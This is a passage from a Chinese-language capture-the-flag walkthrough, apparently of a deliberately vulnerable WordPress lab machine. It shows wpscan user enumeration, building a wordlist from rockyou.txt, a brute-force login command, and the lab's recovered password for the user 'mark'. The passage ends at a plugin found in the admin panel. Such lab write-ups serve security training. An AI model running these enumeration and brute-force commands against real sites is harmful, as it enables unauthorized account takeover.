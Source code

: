 ![](https://pic1.zhimg.com/80/v2-8959b5d6fe7008bca237301f3505777c_720w.webp)

  

设置好之后打开 `http://wordy` 发现它的 CMS 是 `Wordpress` ：

  

![](https://pic2.zhimg.com/80/v2-3afb26359537eaf08a8c49090da9cded_720w.webp)

  

## wpscan爆破网站用户密码

既然是 `wordpress` 那么我就先用 `wpscan` 来对它进行扫描把：

```text
wpscan --url http://wordy/ -e u
```

  

![](https://pic1.zhimg.com/80/v2-e8e51c1552d1c4f34a23d1ae4930e6f4_720w.webp)

  

扫描出来后发现它有这些用户：

```text
admin
jens
graham
mark
sarah
```

紧接着我又生成了一些字典文件来对它网站进行爆破：

```text
cat /usr/share/wordlists/rockyou.txt | grep k01
# 这是作者给我们的提示！
```

生成完字典后对它网站用户名挨个爆破枚举，看看能不能捡漏：

```text
wpscan --url http://wordy/ -U user -P passwords.txt
```

  

![](https://pic3.zhimg.com/80/v2-be30153ae57bf9cb2553feffa4025262_720w.webp)

  

爆破成功后得到 `mark` 的密码：

```text
Username: mark, Password: helpdesk01
```

随后我用得到的账号和密码登陆到了网站的后台发现了一个插件：`Activity monitor`

  